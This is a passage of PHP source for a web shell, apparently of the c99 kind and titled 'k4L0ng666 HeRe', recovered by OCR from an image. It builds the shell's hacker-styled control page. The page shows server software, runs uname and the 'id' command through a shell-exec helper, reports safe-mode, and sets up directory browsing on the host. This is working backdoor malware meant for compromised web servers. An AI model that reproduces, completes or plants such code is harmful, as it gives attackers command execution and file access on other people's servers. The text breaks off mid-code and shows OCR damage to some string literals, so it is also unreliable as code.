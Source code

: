 $sort = htmlspecialchars($sort);
if (empty($sort)) {$sort = $sort_default;}
$sort[1] = strtolower($sort[1]);
$DISP_SERVER_SOFTWARE = getenv("SERVER_SOFTWARE");
if (!ereg("PHP/".phpversion(),$DISP_SERVER_SOFTWARE)) {$DISP_SERVER_SOFTWARE .= ". PHP/".phpversion();}
$DISP_SERVER_SOFTWARE = str_replace("PHP/".phpversion(),"&lt;a href=\"".$surl."act=phpinfo\" target=\"_blank\"&gt;&lt;b&gt;&lt;u&gt;PHP/".phpversion()."&lt;/u&gt;&lt;/b&gt;&lt;/a&gt;",htmlspecialchars($DISP_SERVER_SOFTWARE));
@ini_set("highlight.bg",$highlight_bg); //FFFFFF
@ini_set("highlight.comment",$highlight_comment); //#FF8000
@ini_set("highlight.default",$highlight_default); //#0000BB
@ini_set("highlight.html",$highlight_html); //#000000
@ini_set("highlight.keyword",$highlight_keyword); //#007700
@ini_set("highlight.string",$highlight_string); //#DD0000
if (!is_array($actbox)) {$actbox = array();}
$dspact = $act = htmlspecialchars($act);
$disp_fullpath = $ls_arr = $notls = null;
$ud = urlencode($d);
?&gt;
&lt;html&gt;&lt;head&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;&lt;meta http-equiv="Content-Language" content="en-us"&gt;&lt;title&gt;&lt;?php echo getenv("HTTP_HOST"); ?&gt; -::[ k4L0ng666 HeRe ]::-&lt;/title&gt;&lt;STYLE&gt;
TD { FONT-SIZE: 8pt; COLOR: #009900; FONT-FAMILY: verdana;}BODY { scrollbar-face-color: #800000; scrollbar-shadow-color: #101010; scrollbar-highlight-color: #101010; scrollbar-3dlight-color: #101010; scrollbar-darkshadow-color: #101010; scrollbar-track-color: #101010; scrollbar-arrow-color: #101010; font-family: Verdana;}TD.header { FONT-WEIGHT: normal; FONT-SIZE: 10pt; BACKGROUND: #7d7474; COLOR: white; FONT-FAMILY: verdana;}A { FONT-WEIGHT: normal; COLOR: #0099CC; FONT-FAMILY: Tahoma; TEXT-DECORATION: none;}A:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; FONT-FAMILY: verdana; TEXT-DECORATION: none;}A.Links { COLOR: #ffffff; TEXT-DECORATION: none;}A.Links:unknown { FONT-WEIGHT: normal; COLOR: #ffffff; TEXT-DECORATION: none;}A:hover { COLOR: #ffffff; TEXT-DECORATION: underline;}.skin0{position:absolute; width:200px; border:2px solid black; background-color:menu; font-family:Verdana; line-height:20px; cursor:default; visibility:hidden;;}.skin1{cursor: default; font: menutext; position: absolute; width: 145px; background-color: menu; border: 1 solid buttonface;visibility:hidden; border: 2 outset buttonhighlight; font-family: Verdana,Geneva, Arial; font-size: 10px; color: black;}.menuitems{padding-left:15px; padding-right:10px;;}input{background-color: #000099; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}textarea{background-color: #000099; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}button{background-color: #000066; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}select{background-color: #000066; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}option {background-color: #000066; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}iframe {background-color: #000066; font-size: 8pt; color: #FFFFFF; font-family: Tahoma; border: 1 solid #666666;}p {MARGIN-TOP: 0px; MARGIN-BOTTOM: 0px; LINE-HEIGHT: 150%}blockquote{ font-size: 8pt; font-family: Courier, Fixed, Arial; border : 8px solid #A9A9A9; padding: 1em; margin-top: 1em; margin-bottom: 5em; margin-right: 3em; margin-left: 4em; background-color: #000000;}body,td,th { font-family: verdana; color: #CCCCCC; font-size: 11px;}body { background-color: #000000;}
&lt;/style&gt;&lt;/head&gt;&lt;BODY text=#ffffff bottomMargin=0 bgColor=#000000 leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;&lt;center&gt;&lt;TABLE style="BORDER-COLLAPSE: collapse" height=1 cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#000000 borderColorLight=#c0c0c0 border=1 bordercolor="#C0C0C0"&gt;&lt;tr&gt;&lt;th width="101%" height="15" nowrap bordercolor="#C0C0C0" valign="top" colspan="2"&gt;&lt;p&gt;&lt;font face=Webdings size=6&gt;&lt;b&gt;!&lt;/b&gt;&lt;/font&gt;&lt;a href="&lt;?php echo $surl; ?&gt;"&gt;&lt;font face="Verdana" size="5"&gt;&lt;b&gt; &lt;?php echo $shver; ?&gt;&lt;/b&gt;&lt;/font&gt;&lt;/a&gt;&lt;font face=Webdings size=6&gt;&lt;b&gt;!&lt;/b&gt;&lt;/font&gt;&lt;/p&gt;&lt;/center&gt;&lt;/th&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;p align="left"&gt;&lt;b&gt;Software:&nbsp;&lt;?php echo $DISP_SERVER_SOFTWARE; ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;uname -a:&nbsp;&lt;?php echo wordwrap(php_uname(),90,"&lt;br&gt;",1); ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;&lt;?php if (!$win) {echo wordwrap(myshellexec("id"),90,"&lt;br&gt;",1);} else {echo get_current_user();} ?&gt;&lt;/b&gt;&nbsp;&lt;/p&gt;&lt;p align="left"&gt;&lt;b&gt;Safe-mode:&nbsp;&lt;?php echo $hsafemode; ?&gt;&lt;/b&gt;&lt;/p&gt;&lt;p align="left"&gt;&lt;?php
$d = str_replace("\",DIRECTORY_SEPARATOR,$d);
if (empty($d)) {$d = realpath(".");} elseif(realpath($d)) {$d = realpath($d);}
$d = str_replace("\",DIRECTORY_SEPARATOR,$d);
if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;}